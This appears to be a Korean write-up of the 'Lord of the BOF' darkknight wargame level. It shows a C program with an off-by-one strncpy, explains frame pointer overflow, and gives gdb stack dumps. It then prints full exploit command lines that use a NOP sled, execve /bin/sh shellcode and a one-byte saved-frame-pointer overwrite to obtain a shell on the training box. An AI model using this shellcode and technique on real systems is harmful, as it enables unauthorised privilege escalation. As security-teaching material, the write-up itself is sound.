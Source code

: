Golem -> Darkknight

소스코드
==========
darkknight.c
```C
/*
        The Lord of the BOF : The Fellowship of the BOF
        - darkknight
        - FPO
*/

#include <stdio.h>
#include <stdlib.h>

void problem_child(char *src)
{
	char buffer[40];
	strncpy(buffer, src, 41);
	printf("%s\n", buffer);
}

main(int argc, char *argv[])
{
	if(argc<2){
		printf("argv error\n");
		exit(0);
	}

	problem_child(argv[1]);
}
```

풀이
======================

이번 문제는 FPO라는 기법을 이용하여 풀어야 합니다. FPO(Frame Pointer Overflow)란 SFP 중 1바이트 만큼을 바꾸어서 공격을 하는 방법입니다.<br>
서브 함수의 SFP를 바꾸어 ebp를 자신이 원하는 곳으로 바꾸어 ret가 실행될 때 쉘코드를 실행시켜 공격을 하는 방법입니다.(이와 관련된 정확한 방법은 다시)<br><br>

**FPO**
1. ebp의 마지막 1바이트를 오버플로해서 ebp를 특정 주소로 옮긴다.
2. ret를 통해 원래함수로 돌아와 진행한다.
3. 조작된 주소에 있는 ebp로 esp가 옮겨진다.
4. 현재 esp값은, 조작된 주소+4 가 된다.
5. 결과적으로 “조작된 주소+4” 에 있는 주소값이 실행된다.


core 파일을 생성시켜서 확인해보도록 하겠습니다.
```
[golem@localhost temp]$ ./darkknight `python -c 'print "A"*40'`
(gdb) x/100x $esp

0xbffffc28:	0x0000000f	0xbffffc59	0x00000000	0x00000000
0xbffffc38:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffffc48:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffffc58:	0x38366900	0x2f2e0036	0x6b726164	0x67696e6b
0xbffffc68:	0x41007468	0x41414141	0x41414141	0x41414141
0xbffffc78:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc88:	0x41414141	0x41414141	0x00414141	0x5353454c
```

\x41로 이루어진 부분이 problem_child 함수의 buffer입니다.
스택 앞 부분에 nop을 15개 깔고(쉘코드가 25Byte라서) 그 뒤에 쉘코드를 삽입 시켜 줍니다. 그 후 41번째 즉 변조할 SFP는 \x64로 공격을 해줍니다.

```
[golem@localhost temp]$ ./darkknight `python -c 'print "\x90"*15 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" + "\x64"'`
1󿿐h//shh/bin⏓󿲒°
               ̀dj񹼿¿	@ 
bash$
```
공격에 성공하는 것을 알 수 있습니다.<br>

```
[golem@localhost golem]$ ./darkknight `python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" + "\x90"*15 + "\x64"'`
1󿿐h//shh/bin⏓󿲒°
               ̀dj񹼿¿	@ 
bash$ my-pass
euid = 512
new attacker
bash$
```
